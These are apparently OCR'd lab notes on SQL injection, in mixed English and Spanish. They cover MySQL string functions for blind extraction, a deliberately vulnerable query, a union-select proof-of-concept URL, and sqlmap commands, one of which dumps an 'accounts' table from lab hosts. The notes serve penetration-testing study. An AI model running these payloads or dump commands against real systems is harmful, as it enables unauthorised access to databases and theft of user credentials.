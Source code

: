 ```bash
IF(LOCATE('H',SUBSTR(USERNAME,1,1)),1,0)
# u can also use functions 'INSTR' and 'POSITION'
```

### Building Substring

```bash
- SUBSTR
- MID
- SUBSTRING
```

MID is a synonym of SUBSTRING, which is a synonym of SUBSTR:

```bash
[SUBSTR|MID|SUBSTRING]('HELLO' FROM 1 FOR 1)
```

Alternativamente, functions **LEFT** and **RIGHT**

→ http://dev.mysql.com/doc/refman/5.0/en/string-functions.html#function\_left

→ http://dev.mysql.com/doc/refman/5.0/en/string-functions.html#function\_right

```bash
[LEFT|RIGHT]('HELLO',2) //HE or LO
```

Más opciones functions like **RPAD** and **LPAD**:

```bash
[LPAD,RPAD]('HELLO',6,'?') //?HELLO or HELLO?
[LPAD,RPAD]('HELLO',1,'?') //H
...
[LPAD,RPAD]('HELLO',5,'?') //HELLO 
```

## Labs

Nota: Diferentes versiones sqlmap pueden requerir diferentes opciones/flajas. Por ejemplo, el laboratorio 4 puede resolverse utilizando lo siguiente:

```bash
sqlmap -u 'http://192.222.62.2/upload.php?lab=4&payload=' -p payload --technique=B --dbms MySQL --no-cast --tamper=symboliclogical --threads=10 --banner --flush-session --regexp='99\sviews'  --prefix="01.jpg'"
```

### 1 - ENTRY LEVEL

```bash
# Query:
$query = "SELECT views from attachments where filename='$filename'";


# PoC
http://hacker.site/2nd/view.php?payload=%27%20union%20select%20@@version;%20--%20-

# SQLMAP
./sqlmap.py -u 'http://hacker.site/2nd/view.php?payload=a' --technique=U --suffix='; -- -' --banner
	
./sqlmap.py -u 'http://hacker.site/2nd/view.php?payload=a' --technique=U --suffix='; -- -' -D selfie4you01 -T accounts --dump --no-cast
```
